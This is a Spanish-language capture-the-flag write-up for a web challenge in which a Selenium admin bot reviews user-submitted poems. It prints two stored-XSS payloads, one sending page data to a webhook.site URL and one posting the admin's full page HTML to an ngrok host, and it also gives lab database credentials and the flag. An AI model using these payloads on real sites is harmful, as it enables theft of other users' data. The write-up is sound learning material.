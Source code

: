 # batalla_de_gallinas

Lo primero que hago es montar el reto en local. Es importante este paso porque como veo que esta montando varios conetenedores docker, es importante saber como funcionan y como están interconectados entre sí. 

Tras analizar el `docker.compose.yml` vemos que se esta generando una base de datos con Mariadb, y otro el cual se corresponde a la web. Ambos contenedores están conectados entre si. También contiene otros tres contenedores: `selenium-chrome`, `selenium-hub`, y `redis`. El más importante es `selenium-chrome`, más adelate veremos porque.

En la web nos encontramos con una página de login en la cual nos deja registrarnos con los parametros `user`, `about_me`, y `password`.

![image.png](images/image_01.png)

Si intentamos registarnos con el usuario `admin` no nos deja, porque ya existe ese usuario. 

Nos creamos un usuario, y vemos que podemos subir un poema, y hacer que un administrador lo revise.

![image.png](images/image_02.png)

Con burpsuit, podemos analizar que hace la web cuando le damos al boton `Request poem review`, y este lo que hace es pasar los siguientes parámetros a `http://0.0.0.0:12105/visit`

- `Cookie: session=…`
- `csrf_tocken=…`

![image.png](images/image_03.png)

Analizando el código de la web (el archivo `app.py`):

```python
@app.route('/visit/', methods=['POST'])
@login_required
def doVisit():
    ip = request.remote_addr
    last_timestamp = last_visit.get(ip)
    current_timestamp = time()
    if last_timestamp and (current_timestamp - last_timestamp < VISIT_COOLDOWN):
        flash(f"Current user recently asked for a visit, please wait at least {VISIT_COOLDOWN} seconds between visits", 'warning')
        app.logger.info(f"Rejected enqueue {ip}, current: {current_timestamp}, last {last_timestamp}")
    else:
        last_visit[ip] = current_timestamp
        visit_url = f"http://babypoems:8080/poem/?username={current_user.get_id()}"
        q.enqueue(visit_user_page, visit_url, admin_password)
        flash("Enqueued successfully, an admin will review your poem soon", 'success')
        app.logger.info(f"Enqueued visit from {ip} to {visit_url}, admin pw: {admin_password}")

    return redirect(url_for('poem'))
```

Vemos que cuando nos deja hacer la petición se visita la siguiente URL con el parametro `username=valor` siendo el valor, el id de usuario. Si intentamos nosotros como usuario hacer la petición a la pagina con algun parametro: `http://0.0.0.0:12105/poem/?username=admin` nos salta un banner diciendo que solo los administradores pueden realizar esta opción.

---

Vamos a abordar la parte de la base de datos. Al iniciar el contenedor docker, se establece un contenedor que corresponderá a la base de datos (en mariadb). Si nos conectamos al contenedor, con: `docker exec -it <nombre_contenedor> /bin/bash`, podemos autenticarnos en mariadb con el usuario `babypoemsdbuser` y su contraseña `babypoemsdbpassword`. Listando las databases existentes (`SHOW DATABASES;`) nos conectamos a babypoemsdb (`USE babypoemsdb;`). Estando aquí, listamos todos los usuarios y contraseñas mediante la querry `SELECT * FROM user;`

![Screenshot 2024-11-21 at 12.14.13.png](images/image_04.png)

Vemos nuestro usuario y el usuario administrador. Pero de esta manera no conseguimos nada. Teniendo en cuenta que mariadb es bastante seguro, no vamos a intentar hacer una inyección SQL.

---

Otra opción que se nos puede ocurrir es abordar un secuestro de Cookies. Queremos obtener la cookie del usuario admin, para así secuestrar su sesión y poder ver el campo de `aboutme`. El servidor tiene configurado una flag en las cookies, `HttpOnly` está activado. Esta flag significa que desde javascript no vamos a poder leer las cookies del usuario, por lo tanto buscamos otro punto de entrada.

Revisando los archivos de la web, vemos un archivo llamado `visitor.py` el cual se ejecuta cuando submietamos el poema para que lo revise un administrador.

```python
from time import sleep
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.common.keys import Keys

def visit_user_page(url, adminpwd):
    options = webdriver.ChromeOptions()
    driver = webdriver.Remote(
         command_executor="http://selenium-hub:4444",
         options=options
    )
    try:
        print(f"Visiting {url}")
        driver.implicitly_wait(5)  # 5 sec timeout for finding elements
        driver.get("http://babypoems:8080/login")
        login_f = driver.find_element(By.ID, "usernameinput")
        login_f.send_keys("admin")
        pw_f = driver.find_element(By.ID, "passwordinput")
        pw_f.send_keys(adminpwd)
        pw_f.send_keys(Keys.ENTER)
        driver.get(url)
        sleep(5)  # Admire during 5 seconds how beautiful the user poem is
    finally:
        driver.quit()
```

Este lo que está haciendo es desde el contenedor `selenium-chrome` usar un navegador que se autentique con nuestro usuario, visualizará el problema el problema durante 5 segundos y se saldrá.

Cada vez que submiteamos el `js` que ponemos en el poema, se ejecutará cada vez que se visite a ese usuario. Este es un buen punto de entrada a la hora de poder obtener la flag, que si lo recordamos, está en el campo “About me” del usuario admin.

Se me ocurre que si conseguimos que el bot cargue la pagina correspondiente a el administrador: `https://…/poem/?username=admin` se guarde el `html` y despues enviárnoslo a un servidor que controlemos nosotros por el método POST, podremos obtener el campo “About me” del administrador. Este sería el código en `javascript`:

```python
<script>
fetch('https://3b51a408a705-webth-vulnerable.numa.host/poem/?username=admin')
.then(response => response.text())
.then(data => {

    const inputValue = document.querySelector("input").value;
    

    const serverUrl = 'https://webhook.site/b52153d3-fbf8-457f-a2eb-6b5d24d6735b';
    const fullUrl = `${serverUrl}?data=${encodeURIComponent(inputValue)}`;
    

    fetch(fullUrl);
});
</script>
```

Con este script vemos que el admin esta visualizando correctamente nuestro poema, porque estamos renderizando el HTML, y pasandolo a un servidor controlado.

![Screenshot 2024-12-02 at 09.55.03.png](images/image_05.png)

Vemos que aun así nos carga nuestro html en vez del administrador. Como el bot directamente está como administrador no hará falta pedirle que visite `/poem/?username=admin` sino que lo hará directamente, por lo que modificando el script anterior, para que una vez el bot visite su pagina, cargemos el html y lo pasemos al servidor controlado, quedando el siguiente script:

```python
<script>

    document.addEventListener('DOMContentLoaded', () => {

        const htmlContent = document.documentElement.outerHTML;

        const serverUrl = 'https://ab4a-193-147-77-9.ngrok-free.app';

        fetch(serverUrl, {
            method: 'POST',
            headers: {
                'Content-Type': 'text/plain',
            },
            body: htmlContent
        }).then(() => {
            console.log("Datos enviados al servidor con éxito.");
        }).catch(error => {
            console.error("Error al enviar los datos:", error);
        });
    });
</script>
```

Con esto conseguimos ver cual es la flag.

![image.png](images/image_06.png)

`URJC{4qu3l_h4ck3r_d3_l4s_4nd3s}`
